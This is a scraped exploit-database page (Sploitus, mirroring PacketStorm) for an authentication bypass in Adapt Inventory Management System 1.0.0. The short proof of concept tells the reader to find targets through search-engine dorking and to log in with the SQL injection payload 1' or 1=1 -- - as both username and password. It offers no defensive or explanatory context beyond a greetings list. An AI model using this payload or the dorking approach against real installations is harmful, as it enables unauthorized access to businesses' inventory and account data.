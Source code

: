 ```yaml
---
title: Adapt Inventory Management System 1.0.0 SQL Injection exploit
url: https://sploitus.com/exploit?id=PACKETSTORM:173097&utm_source=rss&utm_medium=rss
source: Sploitus.com Exploits RSS Feed
date: 2023-06-24
fetch_date: 2025-10-04T11:44:41.528766
---
```


# Adapt Inventory Management System 1.0.0 SQL Injection exploit

[x]
Dark Mode

[##### SPLOITUS](/)

# Exploit for Adapt Inventory Management System 1.0.0 SQL Injection

2023-06-23 | CVSS 7.1

Copy
Download
Source
[Share](#share-url)

```
## https://sploitus.com/exploit?id=PACKETSTORM:173097
====================================================================================================================================
| # Title : Adapt Inventory Management System 1.0.0 Auth By Pass Vulnerability |
| # Author : indoushka |
| # Tested on : windows 10 Français V.(Pro) / browser : Mozilla firefox 63.0.3 (32-bit) |
| # Vendor : https://codecanyon.net/item/adapt-inventory-management-system/22838514?s_rank=7 |
| # Dork : |
====================================================================================================================================

poc :

[+] Dorking İn Google Or Other Search Enggine .

[+] use payload user & Pass : 1' or 1=1 -- -

[+] https://127.0.0.1/www/adaptinventory.com/demo/index.php

Greetings to :=========================================================================================================================
jericho * Larry W. Cashdollar * brutelogic* hyp3rlinx* 9aylas * djroot.dz * LiquidWorm* Hussin-X *D4NB4R * shadow_00715 * yasMouh |
=======================================================================================================================================
```

Share

Copy

![](https://mc.yandex.ru/watch/54912310)